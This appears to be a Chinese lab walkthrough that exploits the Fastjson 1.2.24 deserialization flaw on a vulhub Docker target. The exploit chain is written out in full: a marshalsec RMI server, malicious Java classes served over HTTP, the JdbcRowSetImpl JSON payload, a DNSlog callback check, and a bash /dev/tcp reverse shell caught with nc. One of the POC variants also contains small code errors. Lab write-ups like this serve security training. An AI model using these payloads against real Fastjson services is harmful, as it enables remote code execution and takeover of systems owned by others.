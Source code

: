 # 1.2.24-rce

### 工具环境准备

下载marshalsec

{% embed url="https://github.com/mbechler/marshalsec" %}

下载好以后cd到marshalsec目录mvn编译它，会生成一个名为target的文件夹，开启rmi服务的工具在里面，如果没有mvn命令那用apt命令安装它

{% code lineNumbers="true" %}
```
apt install maven
mvn clean package -DskipTests
```
{% endcode %}

将这个POC保存到攻击机的目录，我这里将它命名为TouchFile.java

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译这个POC，并在当前目录用python开启一个http服务

{% code lineNumbers="true" %}
```
javac TouchFile.java
python3 -m http.server 8881
```
{% endcode %}

进入到marshalsec的target目录中在攻击机中开启rmi服务，指定加载类，并监听端口2345

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -cp ../../marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.1.110:8881/#TouchFile 2345
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 2345
```

将以下的payload放入到请求包单中发送请求，记得将请求包修改成POST请求

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.110:2345/TouchFile",
        "autoCommit":true
    }
}
```

Burp发送请求

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

可以看到RMI服务以及python请求都有相应，说明请求没有问题

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

POC中的命令是在靶机tmp目录创建一个success文件夹，我们进入到靶机的docker容器当中查看以下以确定没有任何问题

```
root@debian:~/vulhub/fastjson/1.2.24-rce# docker exec -it badb1f766db0 /bin/bash
root@badb1f766db0:/# ls
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
root@badb1f766db0:/# cd /tmp/
root@badb1f766db0:/tmp# ls
hsperfdata_root  success  tomcat-docbase.9077591842716910581.8090  tomcat.5885354487546599121.8090
```

可以看见文件创建成功，下面再尝试一下dnslog的方式来验证漏洞，将上面的POC命令修改以下

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "www.k1mdihfsa4d4jv2kh73z8balmcs3g84x.oastify.com"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

将原来的class文件删除重新编译，我这里用的是Burp自带的Dnslog平台，别忘记将请求包改成POST，发送请求，OK 有了响应，（如果有问题就重新运行一下rmi服务和python的http服务）

查看Burp的Dnslog平台，有了回显

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

去生成一个反弹shell的payload

```
bash -i >& /dev/tcp/192.168.1.110/8886 0>&1
```

{% embed url="https://www.revshells.com/" %}

修改POC并重新编译

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash", "-c","bash -i >& /dev/tcp/192.168.1.110/8886 0>&1"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

也可以用下面这个POC，作用都是一样是的

```
/*
 * getshell.java
 * 将其编译后生成Exploit.class
 * 上传到HTTP服务器
 */
public class GetShell{
    public GetShell(){
        Runtime.getRuntime.exec("bash -i >& /dev/tcp/192.168.1.110/8886 0>&1");//监听主机的IP和端口号
    }
    public static void main(Sring[] args){
        GetShell e = new GetShell();
    }
}
//直接使用静态代码块亦可
```

nc监听8886端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8886
listening on [any] 8886 ...
```

Brup发送请求，

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

查看nc的监听，返回了一个shell

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
